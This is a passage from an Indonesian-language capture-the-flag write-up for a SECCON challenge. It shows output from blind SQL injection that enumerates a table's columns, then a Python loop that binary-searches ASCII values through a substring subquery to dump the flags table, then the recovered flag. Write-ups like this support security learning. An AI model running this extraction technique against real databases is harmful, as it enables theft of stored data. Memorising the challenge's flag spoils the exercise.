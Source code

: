 Kami mendapatkan output ini.
```
i
id
id,
id,v
...
id,value,created_at,updated_a
id,value,created_at,updated_at
```

Oke sekarang saatnya melakukan dump semua baris dengan kolom `value`.
```python
...
def dump_flag():
    flag = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(value) from flags),{},1)) > {}"
            s = s.format(len(flag)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return flag
        flag += chr(lo)
        print(flag)

dump_flag()
```

Kami mendapatkan output ini, dan flagnya valid!
```
S
SE
SEC
SECC
...
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}
```

Flag: `SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}`